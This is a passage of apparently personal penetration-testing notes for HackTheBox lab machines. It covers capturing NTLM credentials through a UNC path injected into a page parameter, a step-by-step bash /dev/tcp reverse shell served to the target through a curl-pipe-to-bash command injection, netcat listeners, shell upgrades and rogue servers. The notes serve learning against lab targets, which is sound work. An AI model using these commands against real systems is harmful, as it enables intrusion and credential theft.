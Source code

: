 This can be used for example to force the target make a call to a compromised host in the same network and capture the credentials challenge:

```
http://unika.htb/index.php?page=\\10.1.2.3\blabla\
```

### Reverse shell <a name="reverse-shell"></a>

Reverse basically means that it is the target that will initiate a connection request back us (the attacker). 

For example, once we have remote code execution in the target, we'll be able to download and execute a piece of code.

Usually the process is:
1. Create a file in the attacker machine containing a reverse shell payload:
```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```
2. Create a server in the attacker machine which will act as the shell I/O. Normally this is done with `netcat`.
```bash
nc -nvlp 1337
```
3. Start a webserver in the attacker machine that will server the reserve shell payload. You can do that with python (in the same directory as the payload):
```bash
python3 -m http.server 8000
```
4. Make the target machine download and execute the reverse shell payload:
```
http://thetoppers.htb/shell.php?cmd=curl%20%3CYOUR_IP_ADDRESS%3E:8000/shell.sh|bash
```

You can find a list of reverse shells here: https://www.revshells.com/

Once you have shell access, most likely it will not be interactive and you'll miss many functionalities. You can try to get a improve the shell if python is installed:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```


Or, you can find mmore methods to improve the shell here https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

### Rogue servers <a name="rogue"></a>

The idea of rogue server is to start a server in the attacker machine and make the target machine speak with the attacker server. This is used for instance to retrieve NTLM hash challenge or to explot log4j vulnerability.
